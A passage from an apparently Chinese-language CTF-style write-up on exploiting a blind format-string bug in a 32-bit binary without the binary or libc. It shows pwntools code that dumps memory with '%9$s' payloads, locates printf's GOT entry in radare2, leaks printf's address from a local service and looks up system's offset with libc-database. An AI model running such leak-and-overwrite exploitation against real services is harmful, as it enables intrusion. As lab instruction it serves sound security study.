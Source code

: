 ```python
        result += data
        start_addr += len(data)
        p.close()
    return result
start_addr = 0x8048000
end_addr   = 0x8049000
code_bin = dump_memory(start_addr, end_addr)
with open("code.bin", "wb") as f:
    f.write(code_bin)
    f.close()
```
这里构造的 paylaod 和前面有点不同，它把地址放在了后面，是为了防止 printf 的 `%s` 被 `\x00` 截断：
```python
payload = "%9$s.AAA" + p32(start_addr)
```
另外 `.AAA`，是作为一个标志，我们需要的内存在 `.AAA` 的前面，最后，偏移由 7 变为 9。

在没有开启 PIE 的情况下，32 位程序从地址 `0x8048000` 开始，0x1000 的大小就足够了。在对内存 `\x00` 进行 leak 时，数据长度为零，直接给它赋值就可以了。

于是就成了有二进制文件无 libc 的格式化字符串漏洞，在 r2 中查询 printf 的 got 地址：
```
[0x08048490]> is~printf
vaddr=0x08048400 paddr=0x00000400 ord=002 fwd=NONE sz=16 bind=GLOBAL type=FUNC name=imp.printf                                                                                        
[0x08048490]> pd 3 @ 0x08048400
        :   ;-- imp.printf:                                                                                                                                                           
        :   0x08048400      ff2574990408   jmp dword [reloc.printf_116] ; 0x8049974                                                                                                   
        :   0x08048406      6808000000     push 8                      ; 8                                                                                                            
        `=< 0x0804840b      e9d0ffffff     jmp 0x80483e0
```
地址为 `0x8049974`。

#### printf address & system address
接下来通过 printf@got 泄露出 printf 的地址，进行到这儿，就有两种方式要考虑了，即我们是否可以拿到 libc，如果能，就很简单了。如果不能，就需要使用 DynELF 进行无 libc 的利用。

先说第一种：
```python
def get_printf_addr():
    p = remote('127.0.0.1', '10001')
    p.recvline()
    payload = "%9$s.AAA" + p32(printf_got)
    p.sendline(payload)
    data = p.recvuntil(".AAA")[:4]
    log.info("printf address: %s" % data.encode('hex'))
    return data
printf_addr = get_printf_addr()
```
```
[*] printf address: 70e6e0f7
```
所以 printf 的地址是 `0xf7e0e670`（小端序），使用 libc-database 查询得到 libc.so，然后可以得到 printf 和 system 的相对位置。
```
$ ./find printf 670
ubuntu-xenial-i386-libc6 (id libc6_2.23-0ubuntu9_i386)
/usr/lib32/libc-2.26.so (id local-292a64d65098446389a47cdacdf5781255a95098)
$ ./dump local-292a64d65098446389a47cdacdf5781255a95098 printf system
offset_printf = 0x00051670
offset_system = 0x0003cc50
```
然后计算得到 printf 的地址：
```python
printf_addr = 0xf7e0e670
offset_printf = 0x00051670
```
